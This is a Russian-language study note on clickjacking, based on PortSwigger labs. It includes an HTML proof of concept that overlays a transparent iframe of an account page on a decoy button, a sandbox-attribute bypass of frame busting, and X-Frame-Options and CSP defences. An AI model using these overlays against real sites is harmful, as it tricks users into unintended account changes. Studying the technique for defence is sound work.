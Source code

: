 # Clickjacking (UI redressing)

Форма прорисовывается поверх формы лигитимного приложения. Разница от CSRF в том, что требуется от пользователя интерактивных действий (кликнуть по кнопке, например).

CSRF токены не защищают от этого вида атак. Защищает детектирование того, что сайт загружен в скрытом iframe.

Source: [https://portswigger.net/web-security/clickjacking](https://portswigger.net/web-security/clickjacking)

## Construct basic clickjacking attack

```markup
<html>
    <head>
        <title>UI Redressing PoC</title>
        <style>
            #target_website {
                position:relative;
                width:700px;
                height:500px;
                opacity:0.2;
                z-index:2;  /* Элемент с наиболее высоким z-index, перекрывает другие
                               Тем самым видимая часть (div) будет наверху, но фактически активным будет iframe
                            */
            }
            #decoy_website {
                position:absolute;
                z-index:1;
            }
            #btn_action {
                position: relative;
                width: 100px;
                height: 20px;
                color: brown; 
                top: 445px;  
                left: 40px;   
            }
        </style>
    </head>
    <body>
        <div id="decoy_website">
            <button id="btn_action">
                click me
            </button>
            ...decoy web content here...
        </div>
        <iframe id="target_website" src="https://0ac0003404fc3984c07807190024003a.web-security-academy.net/my-account?email=email2@gmail.com">
        </iframe>
    </body>
</html>
```

Через GET-параметры иногда можно добавлять значения по умолчанию в форму

Одна из Client-Side техник защиты от Clickjacking — Frame Busting. Однако это обходится в некоторых случаях.

Frame Busting реализуется с помощью проприетарных надстроек в браузере (через JS add-ons) или через такие расширения как NoScript. Скрипты реализуют следущее:

* проверить и обеспечить, чтобы текущее окно приложения было главным или верхним окном
* сделать все iframe видимыми
* предотвратить нажатие на невидимые frames
* перехватывать и помечать потенциальные кликджекинговые атаки для пользователя

Злоумышленник может это обойти, открывая iframe с атрибутами `allow-forms` или `allow-scripts` и опуская атрибут `allow-top-navigation`

```markup
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

Значения `allow-forms` и `allow-scripts` разрешают указанные действия в iframe, но навигация верхнего уровня отключена. Это запрещает прерывание кадров, но обеспечивает функциональность на целевом сайте.

## Mitigations

### X-Frame-Options

Запрещено отрисовывать в iframe

```
X-Frame-Options: deny
```

Только с того же ориджена

```
X-Frame-Options: sameorigin
```

Разрешено с определенного сайта

```
X-Frame-Options: allow-from https://normal-website.com
```

### CSP

```
Content-Security-Policy: frame-ancestors 'self';
Content-Security-Policy: frame-ancestors normal-website.com;
```

Подробнее: [https://portswigger.net/web-security/cross-site-scripting/content-security-policy#protecting-against-clickjacking-using-csp](https://portswigger.net/web-security/cross-site-scripting/content-security-policy#protecting-against-clickjacking-using-csp)
